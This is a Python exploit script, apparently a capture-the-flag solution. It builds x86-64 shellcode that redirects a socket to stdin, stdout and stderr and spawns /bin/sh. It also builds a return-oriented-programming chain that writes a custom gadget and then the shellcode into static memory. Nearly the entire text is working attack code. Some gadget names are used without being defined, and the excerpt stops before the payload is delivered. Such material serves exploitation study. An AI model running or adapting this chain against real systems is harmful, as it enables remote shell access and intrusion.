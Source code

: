 ``` python
ret = 0x400110 # ret
sleep_loop = 0x400fcc # mov rdi, 10 ; call sys_sleep ; jmp $-14
static = 0x601000
shellcode_addr = static + 0xccc
mov_rdi_rsi_ret = static + 0x9cc

mov_rdi_rsi_ret_asm = asm('mov qword ptr [rdi], rsi ; ret')

sockfd = 5 # ?
shellcode = ''
for fd in [0, 1, 2]:
    shellcode += asm('mov rax, SYS_dup2')
    shellcode += asm('mov rdi, %d' % sockfd)
    shellcode += asm('mov rsi, %d' % fd)
    shellcode += asm('syscall')
shellcode += asm('mov rax, SYS_execve')
shellcode += asm('mov rbx, 0x%x' % u64('/bin/sh\0'))
shellcode += asm('push rbx')
shellcode += asm('mov rdi, rsp')
shellcode += asm('push 0')
shellcode += asm('mov rdx, rsp')
shellcode += asm('push rdi')
shellcode += asm('mov rsi, rsp')
shellcode += asm('syscall')

payload = ''
# construct a better gadget using a heavy one
def write(addr, s):
    payload = ''
    for i in range(len(s)):
        if i == 0:
            payload += p64(pop_rsi_rdi_ret)
            payload += p64(ord(s[i])) # rsi -> eax
            payload += 'AAAAAAAA' # rdi
            payload += p64(pop_rdi_rcx_mov_rax_r14_ret)
            payload += p64(addr) # rdi
            payload += p64(i) # rcx
            payload += p64(mov_eax_esi_ret)
        payload += p64(mov_rdi_rcx_al_stackpop_ret)
        payload += 'AAAAAAAA' # rbx
        payload += 'AAAAAAAA' # rcx
        payload += 'AAAAAAAA' # r8
        payload += p64(i+1) # rcx
        payload += 'AAAAAAAA' # rbx
        payload += 'AAAAAAAA' # r9
        payload += 'AAAAAAAA' # r10
        payload += 'AAAAAAAA' # rdx
        payload += p64(ord(s[i+1])) if i+1 < len(s) else 'BBBBBBBB' # rsi
        payload += p64(addr) # rdi
        payload += p64(mov_eax_esi_ret)
    return payload
payload += write(mov_rdi_rsi_ret, mov_rdi_rsi_ret_asm)
# write shellcode using the new gadget
def write(addr, s):
    s += '\0' * (- len(s) % 8)
    payload = ''
    for i in range(0, len(s), 8):
        payload += p64(pop_rsi_rdi_ret)
        payload += s[i : i+8]
        payload += p64(addr + i)
        payload += p64(mov_rdi_rsi_ret)
    return payload
payload += write(shellcode_addr, shellcode)
```